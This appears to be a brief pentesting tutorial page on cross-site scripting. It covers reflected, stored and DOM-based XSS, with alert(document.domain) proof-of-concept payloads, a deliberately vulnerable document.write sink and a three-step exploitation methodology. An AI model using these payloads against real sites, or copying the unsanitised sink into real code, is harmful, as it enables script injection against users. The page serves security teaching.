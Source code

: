 # XSS

Cross-site scripting (XSS) works by manipulating a vulnerable web site so that it returns malicious JavaScript to users.

XSS cheatsheet: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

More info about Javascript & obfuscation: [javascript-security-considerations.md](../web-security/javascript-security-considerations.md "mention")

<details><summary>Do not use alert(1) -> use alert(document.domain)</summary></details>

## <mark style="color:purple;">**Reflected XSS**</mark>

The malicious script comes from the current HTTP request.

```
https://insecure-website.com/search?term=<script>alert(document.domain)</script>
```

## <mark style="color:purple;">**Stored XSS**</mark>

The malicious script comes from the website's database. POST body example:&#x20;

```
comment=<script>alert(document.domain)</script>
```

## <mark style="color:purple;">**DOM-based XSS**</mark>

The vulnerability exists in client-side code rather than server-side code.

```html
<script>
function trackSearch(query) {
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
  trackSearch(query);
}
</script>
```

```sh
# Get request 
https://insecure-website.com/index?search="><script>alert(document.domain)</script>
```

**Methodology**

1. Look for any script that has a sinks
2. See if you can control the sink
3. Exploit it
